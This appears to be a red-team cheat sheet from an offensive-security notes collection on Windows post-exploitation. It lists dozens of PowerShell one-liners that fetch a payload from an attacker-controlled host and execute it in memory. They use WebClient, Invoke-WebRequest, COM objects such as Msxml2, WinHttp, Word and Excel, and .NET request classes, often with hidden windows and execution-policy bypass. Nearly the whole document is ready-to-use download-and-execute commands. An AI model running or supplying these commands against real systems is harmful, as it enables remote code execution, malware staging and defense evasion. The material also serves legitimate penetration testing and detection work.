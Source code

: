 ```yaml
---
author(s):
  - Userware
tags:
  - post-exploitation
  - file-transfer-and-data-exfiltration
  - living-off-the-land
  - windows
---
```

# Execute Payload

## 01 - Command Prompt

System32 is for 32-bit powershell payloads

```
C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/payload.ps1')"
```

SysWOW64 is for 64-bit powershell payloads

```
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe -nop -w hidden -ep bypass -c "IEX(New-Object Net.Webclient).DownloadString('http://<IP>/payload.ps1')"
```

## 02 - PowerShell

### 2.1 - Cmdlets

#### 2.1.1 - `Invoke-RestMethod`

```powershell
PS C:\> iex (Invoke-RestMethod "http[s]://<IP>[:<PORT>]/payload.ps1")
```

#### 2.1.2 - `Invoke-WebRequest`

```powershell
PS C:\> Invoke-WebRequest "http[s]://<IP>[:<PORT>]/payload.ps1" | iex
```

Internet Explorer backwards compatibility.

```powershell
PS C:\> Invoke-WebRequest "https[s]://<IP>[:<PORT>]/payload.ps1" -UseBasicParsing | iex
```

### 2.2 - PowerShell Objects

#### 2.1.1 - `DownloadString`

```powershell
PS C:\> iex (New-Object System.Net.WebClient).DownloadString('http[s]://<IP>:<PORT>/payload.ps1')
```

#### 2.1.2 - `DownloadData`

```powershell
PS C:\> $data = (New-Object System.Net.WebClient).DownloadData('http[s]://<IP>[:<PORT>]/payload.ps1'); $payload = [System.Text.Encoding]::ASCII.GetString($data); IEX $payload
```

#### 2.1.3 - `OpenRead`

```powershell
PS C:\> IEX (New-Object System.IO.StreamReader ((New-Object Net.Webclient).OpenRead('http[s]://<IP>:<PORT>/payload.ps1'))).ReadToEnd()

PS C:\> $read = (New-Object Net.Webclient).OpenRead('http[s]://<IP>[:<PORT>]/payload.ps1'); $reader = New-Object System.IO.StreamReader $read; $payload = $reader.ReadToEnd(); IEX $payload
```

#### 2.1.4 - `XmlDocument`

An XML file.

```xml
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>PS C:\> IEX ([System.Text.Encoding]::Unicode.GetString(([Convert]::FromBase64String('<base64_encoded>'))))</execute>
   </a>
  </command>
#>
```

How to execute it.

```powershell
PS C:\> $data = New-Object System.Xml.XmlDocument; $data.Load('http[s]://<IP>[:<PORT>]/payload.xml'); IEX ($data.command.a.execute)
```

### 2.3 - COM Objects

> [!INFO]
> This requires PowerShell version 3 or later.
#### 2.3.1 - `Msxml2.XMLHTTP`

```powershell
PS C:\> $http = New-Object -ComObject Msxml2.XMLHTTP; $http.open('GET', 'http[s]://<IP>[:<PORT>]/payload.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('F6D90F16-9C73-11D3-B32E-00C04F990BB4')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/payload.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.2 - `Msxml2.XMLHTTP.3.0`

```powershell
PS C:\> $http = New-Object -ComObject Msxml2.XMLHTTP.3.0; $http.open('GET', 'http[s]://<IP>[:<PORT>]/payload.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('F5078F35-C551-11D3-89B9-0000F81FE221')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/payload.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.3 - `Msxml2.XMLHTTP.6.0`

```powershell
PS C:\> $http = New-Object -ComObject Msxml2.XMLHTTP.6.0; $http.open('GET', 'http[s]://<IP>[:<PORT>]/payload.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('88d96a0a-f192-11d4-a65f-0040963251e5')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/payload.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.4 - `InternetExplorer.Application`

```powershell
PS C:\> $iexplorer = New-Object -ComObject InternetExplorer.Application; $iexplorer.visible = $False; $iexplorer.navigate('http[s]://<IP>[:<PORT>]/payload.ps1'); Start-Sleep 5; $response = $iexplorer.Document.body.innerHTML; $iexplorer.quit(); IEX $response

$iexplorer = [activator]::CreateInstance([type]::GetTypeFromCLSID('0002DF01-0000-0000-C000-000000000046')); $iexplorer.visible = $False; $iexplorer.navigate('http[s]://<IP>[:<PORT>]/payload.ps1'); Start-Sleep 5; $response = $iexplorer.Document.body.innerHTML; $iexplorer.quit(); IEX $response
```

#### 2.3.5 - `WinHttp` (not proxy aware)

```powershell
PS C:\> $http = New-Object -ComObject WinHttp.WinHttpRequest.5.1; $http.open('GET','http[s]://<IP>[:<PORT>]/payload.ps1', $false); $http.send(); IEX $http.responseText

PS C:\> $http = [activator]::CreateInstance([type]::GetTypeFromCLSID('2087c2f4-2cef-4953-a8ab-66779b670495')); $http.open('GET', 'http[s]://<IP>[:<PORT>]/payload.ps1', $false); $http.send(); IEX $http.responseText
```

#### 2.3.6 - `Word.Application`

```powershell
PS C:\> $DCOMWord = New-Object -ComObject Word.Application; While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } $DCOMWord.Visible = $False; $document = $DCOMWord.Documents.Open('http[s]://<IP>[:<PORT>]/payload.ps1'); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } IEX $document.Content.Text; $DCOMWord.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMWord)

PS C:\> $DCOMWord = [activator]::CreateInstance([type]::GetTypeFromCLSID('000209FF-0000-0000-C000-000000000046')); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } $DCOMWord.Visible = $False; $document = $DCOMWord.Documents.Open('http[s]://<IP>[:<PORT>]/payload.ps1'); While($DCOMWord.Busy) { Start-Sleep -Seconds 1 } IEX $document.Content.Text; $DCOMWord.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMWord)
```

#### 2.3.7 - `Excel.Application`

```powershell
PS C:\> $DCOMExcel = New-Object -ComObject Excel.Application; While($DCOMExcel.Busy) { Start-Sleep -Seconds 1 } $DCOMExcel.DisplayAlerts=$False; $Null = $DCOMExcel.Workbooks.Open('http[s]://<IP>[:<PORT>]/payload.ps1'); While($DCOMExcel.Busy) { Start-Sleep -Seconds 1 } IEX (($DCOMExcel.Sheets.Item(1).Range("A1:N"+$DCOMExcel.Sheets.Item(1).UsedRange.Rows.Count).Value2|?{(Variable _).Value})-Join"`n"); $DCOMExcel.Quit(); [Void][System.Runtime.InteropServices.Marshal]::ReleaseComObject($DCOMExcel)
```

### 2.4 - .NET

#### 2.4.1 - `WebRequest`

```powershell
PS C:\> $webrequest = [System.Net.WebRequest]::Create('http[s]://<IP>[:<PORT>]/payload.ps1'); $response = $webrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $payload = $reader.ReadToEnd(); IEX $payload
```

#### 2.4.2 - `HttpWebRequest`

```powershell
PS C:\> $httpwebrequest = [System.Net.HttpWebRequest]::Create('http[s]://<IP>[:<PORT>]/payload.ps1'); $response = $httpwebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $payload = $reader.ReadToEnd(); IEX $payload
```

#### 2.4.3 - `FileWebRequest`

```powershell
PS C:\> $filewebrequest = [System.Net.FileWebRequest]::Create('http[s]://<IP>[:<PORT>]/payload.ps1'); $response = $filewebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $payload = $reader.ReadToEnd(); IEX $payload
```

#### 2.4.4 - `FtpWebRequest`

```powershell
PS C:\> $ftpwebrequest = [System.Net.FtpWebRequest]::Create('http[s]://<IP>[:<PORT>]/payload.ps1'); $response = $ftpwebrequest.GetResponse(); $responsestream = $response.GetResponseStream(); $reader = New-Object System.IO.StreamReader $responsestream; $output = $reader.ReadToEnd(); IEX $output
```

---
## References

### Backlinks

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x00 - Discovery/Desktop/Windows/Host/0xD - Processes AND Services AND Software/Discover Programs/Manual/Living off the Land|Living off the Land: Discover Programs]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Linux/C2 Frameworks|Metasploit: Web Drive-by]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/SMB|File Transfer and Data Exfiltration: Samba]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Windows/Network Ports/SMB/Manual/Server|File Transfer and Data Exfiltration: Windows SMB]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x04 - File Transfer and Data Exfiltration/Linux/Network Ports/WebDAV|File Transfer and Data Exfiltration: Linux WebDAV]]

- [[File Hosting Providers]]

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x01 - Defense Evasion/06 - Security Restrictions/Windows/Applocker Bypass/C2 Frameworks|Applocker Defense Evasion: Metasploit]]

## Hacktricks

- [Hacktricks: Shells - Windows](https://book.hacktricks.wiki/en/generic-methodologies-and-resources/shells/windows.html)

### Hacking Articles

- [Hacking Articles: Windows Exploitation MSBuild](https://www.hackingarticles.in/windows-exploitation-msbuild/)

### Red Team Notes

- [Red Team Notes: Using MSBuild to Execute Shellcode in C#](https://www.ired.team/offensive-security/code-execution/using-msbuild-to-execute-shellcode-in-c)

### SS64

- [SS64: Powershell](https://ss64.com/ps/powershell.html)